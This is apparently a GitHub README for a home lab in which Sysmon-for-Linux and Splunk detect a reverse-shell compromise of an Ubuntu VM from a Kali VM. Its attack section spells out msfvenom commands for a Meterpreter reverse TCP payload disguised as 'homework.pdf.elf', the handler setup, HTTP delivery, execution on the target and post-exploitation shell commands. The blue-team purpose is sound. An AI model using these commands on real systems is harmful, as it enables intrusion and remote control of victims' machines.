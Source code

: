 # 💻 Sysmon-to-Splunk: Reverse Shell Attack Detection

**Stack:** VirtualBox, Kali Linux (attacker), Ubuntu (target), Sysmon-for-Linux, Splunk, Metasploit, msfvenom, python HTTP

**Focus:** Endpoint Telemetry, SIEM Integration, and Threat Detection

**Goal:** Build and analyze a real attack scenario using Sysmon for Linux and Splunk SIEM

## 🔍 Overview

This lab simulates a **realistic endpoint compromise** in a controlled environment.  
Using **Kali Linux** as the attacker and **Ubuntu** as the target, I generated and analyzed **Sysmon telemetry** to detect malicious activity through **Splunk SIEM**.

The project bridges **red-team tactics** and **blue-team analysis**, showing how attacker actions translate into logs, and how defenders can identify those behaviors.

## 🧱 Lab Setup and Architecture

1. Install VirtualBox on your host OS.

2. Create the VMs:
   - **Ubuntu target** — install from [ISO](https://ubuntu.com/download/desktop).
   - **Kali attacker** — import the [Kali](https://www.kali.org/get-kali/#kali-platforms) VirtualBox image (or install from ISO).
   - Both VMs are in a internal network.

1. Allocate resources:
   - Set RAM and CPU for each VM depending on host resources.
   - *Example:* Kali: 4 GB RAM, 4 vCPU. Ubuntu: 4 GB RAM, 3 vCPU.

| Network Diagram                       |
| ------------------------------------- |
| ![diagram](./docs/diagram.png)        |  

## ⚙️ Documentation

### 1. Install Splunk on Ubuntu (Target)

1. Download Splunk Enterprise for Linux (from [Splunk website](https://www.splunk.com/en_us/products/splunk-enterprise.html)) on the Ubuntu VM.

2. Keep in mind that you will need internet connection to install Splunk.

3. On Ubuntu, install:
```shell
# replace splunk_package.deb with the name of your .deb file
sudo dpkg -i ./splunk_package.deb

# start splunk
sudo /opt/splunk/bin/splunk start
   ```

4. Visit the Splunk web UI from the Ubuntu machine at: http://localhost:8000

### 2. Install Sysmon on Ubuntu (Target)

1. Please visit the official [sysmonforlinux](https://github.com/microsoft/SysmonForLinux) repo for more information.

2. Register Microsoft key and feed
```
wget -q https://packages.microsoft.com/config/debian/$(. /etc/os-release && echo ${VERSION_ID%%.*})/packages-microsoft-prod.deb -O packages-microsoft-prod.deb
sudo dpkg -i packages-microsoft-prod.deb
```

2. Install sysmonforlinux
```
sudo apt-get update
sudo apt-get install sysmonforlinux
```

3. Update sysmon config, with (provided config)[./configs/sysmonconfig.xml], taken from [OpenSecureCo](https://github.com/OpenSecureCo/Demos/blob/main/sysmonforlinux)
```
nano /opt/config.xml
```

4. To test, see logs using:
```
sudo tail -f /var/log/syslog | sudo /opt/sysmon/sysmonLogView
```

### 3. Malware

1. Note the ip of the attacker machine (Kali)
```
ip a
```

2. Create the reverse tcp payload with msfvenom using:
```
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=192.168.20.11 LPORT=4444 -f elf -o homework.pdf.elf
```
*note: lhost is the attackeer ip, elf executable file format is used for payload.*

4. Start msfconsole and prepare the handler and run exploit
```
use exploit/multi/handler
set payload linux/x64/meterpreter_reverse_tcp
set LHOST 192.168.20.11
exploit
```
- *note that the default payload for exploit/multi/handler is generic/shell_reverse_tcp (see below); explicitly set payload to linux/x64/meterpreter_reverse_tcp.*
![options](./docs/options.png)

5. Serve the payload with Python HTTP server
```
python3 -m http.server 9999
```

6. Install the malware on Ubuntu by visiting `192.168.20.11:9999` on a browser and downloading it from the python server. After installing:
```
chmod +x homework.pdf.elf
./homework.pdf.elf
```

7. After executing the payload, the handler on Kali should show a new Meterpreter session (see below). 
![handler](./docs/establish.png)

- In msfconsole you can interact with the Ubunut machine from the attacker machine using `shell` with the following commands:
```
shell
ip a 
user
getent group
```
- `ip a` shows network interfaces
- `user` lists users
- `getent group` retrieves group info from administrative databases

8. On the target machine, we can see that we have an established connection with the attacker machine using `sudo ss -tp`:.
```
ESTAB  0  0  192.168.20.10:34944  192.168.20.11:4444  users:((“sh”,pid=8931,fd=4),(“homework.pdf.el”,pid=8370,fd=4))
```
- *note that the peer address (2nd ip) is the attacker machines ip with the port of the handler.*
link

### 4. Telemetry

1. Configure Splunk to ingest sysmon entries

- On the Ubuntu machine running Splunk , navigate to $SPLUNK_HOME/etc/apps/search/local/ or the inputs.conf location. If there's no inputs.conf present, copy from the default app folder and add:
```
[monitor:///var/log/syslog]
disabled = 0
index = endpoint
sourcetype = sysmon:linux
```

- Save the file and restart:
```
sudo /opt/splunk/bin/splunk restart
```

- In Splunk web: Settings → Indexes → Add new index: endpoint (or the name you used).

- Confirm data ingestion by searching the new index: index=endpoint in the Search & Reporting app, the resuilt shoud look like:
![result](./docs/search1.png)


2. Example Splunk queries

- All events in the endpoint index:
```
index=endpoint
```

- Search for attacker IP
```
index=endpoint "192.168.20.11"
```


## 💡 Future Improvements

> 🔧 **Work in Progress** — This is an work in progress lab, and I plan to improve it in the future.

- Add Splunk dashboards or alerts for Sysmon events.

- Test Windows Sysmon vs. Linux Sysmon telemetry differences.

- Add MITRE ATT&CK mapping for detected behaviors.


## 🏁 Final Thoughts

This lab bridges offensive and defensive cybersecurity skills, and allowed me to see how a SIEM can be used to detect, analyze, and investigate real-world attack activity in a safe environment.
